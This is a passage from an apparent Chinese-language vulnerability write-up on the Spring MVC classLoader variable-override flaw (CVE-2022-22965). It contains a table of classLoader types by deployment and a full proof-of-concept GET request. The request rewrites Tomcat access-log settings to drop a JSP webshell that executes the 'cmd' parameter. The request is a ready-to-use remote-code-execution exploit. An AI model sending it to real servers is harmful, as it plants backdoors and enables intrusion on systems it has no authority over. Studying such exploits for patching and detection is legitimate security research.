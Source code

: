 ## 漏洞利用

了解了该漏洞的本质原因是变量覆盖之后，再来看下漏洞利用过程中的问题：

1. 能够覆盖哪些变量?
2. 覆盖的变量会带来什么影响?

现在知道可以通过class.module.classLoader来进行变量覆盖操作，那么具体有哪些变量是可以覆盖的?在springmvc不同的部署场景下classLoader不一样，因此利用方式上是不通用的。

| 部署形式          | classLoader                                            |
| ----------------- | ------------------------------------------------------ |
| SpringBoot FatJar | org.springframework.boot.loader.LaunchedURLClassLoader |
| tomcat war        | org.apache.catalina.loader.ParallelWebappClassLoader   |
| jetty war         | org.eclipse.jetty.webapp.WebAppClassLoader             |

在tomcat war部署下（当前测试环境："apache-tomcat-8.5.8" + "jdk-11.0.1"），class.module下能访问的可读可写的属性如下(不完整，没有收集属性是List/Map/Set的):

<details><summary>
点击查看class.module下能访问的可读可写的属性
</summary></details>

 利用其中的class.module.classLoader.resources.context.parent.pipeline可以设置AccessLog的属性，然后就可以利用写日志的功能实现写webshell，POC如下：

```text
 GET /CVE_2022_22965_war/spring/get-user-info?password=password&user.name=enokiy&user.age=100&names[0]=aaaaaa&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_3&class.module.classLoader.resources.context.parent.pipeline.first.checkExists=true&class.module.classLoader.resources.context.parent.pipeline.first.rotatable=true&class.module.classLoader.resources.context.parent.pipeline.first.prefix=test&class.module.classLoader.resources.context.parent.pipeline.first.buffered=false&class.module.classLoader.resources.context.parent.pipeline.first.directory=/XXXXXXX/&class.module.classLoader.resources.context.parent.pipeline.first.pattern=%3C%25%7B%25%7Dt%20java.io.InputStream%20in%3DRuntime.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3Bint%20a%3D-1%3Bbyte%5B%5D%20b%3Dnew%20byte%5B2048%5D%3Bout.print(%22%3Cpre%3E%22)%3Bwhile(a%3Din.read(b)!%3D-1)%7Bout.println(new%20String(b))%3B%7D%20out.print(%22%3C%2Fpre%3E%22)%3B%20%25%7B%25%7Dt%3E
```

![](/assets/images/CVE-2022-22965/2022-04-27-20-47-17.png)
